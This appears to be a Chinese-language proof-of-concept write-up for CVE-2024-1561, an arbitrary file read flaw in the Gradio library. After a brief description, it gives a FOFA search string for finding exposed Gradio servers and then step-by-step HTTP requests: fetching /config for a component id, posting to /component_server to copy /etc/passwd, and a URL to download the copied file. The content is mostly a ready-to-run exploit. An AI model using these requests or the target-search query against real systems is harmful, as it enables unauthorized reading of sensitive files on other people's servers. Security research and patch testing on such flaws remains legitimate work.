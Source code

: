 ## Gradio存在任意文件读取漏洞(CVE-2024-1561)

Gradio是一个开源 Python 库，是通过友好的 Web 界面演示机器学习模型的方法。Gradio 存在安全漏洞，该漏洞源于端点不正确地允许调用类上的任何方法，允许未经授权的本地文件读取访问，可能导致敏感信息泄露。

## fofa

```
body="gradio_mode"
```

## poc

获取components后面的id值

```
GET /config HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xxx.xxx.xxx.xx
```

读取/etc/passwd

```
POST /component_server HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.3 Safari/605.1.1514.1.3 Ddg/14.1.3
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xxx.xxx.xxx.xxx
Content-Type: application/json
Content-Length: 105

{"component_id": "上面获取的id","data": "/etc/passwd","fn_name": "move_resource_to_block_cache","session_hash": "a"}
```

![image-20240521195609464](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405211956540.png)



读取该文件，实现任意文件读取

```
http://xxx.xxx.xxx.xxx/file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd
```

![image-20240521195643782](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405211956861.png)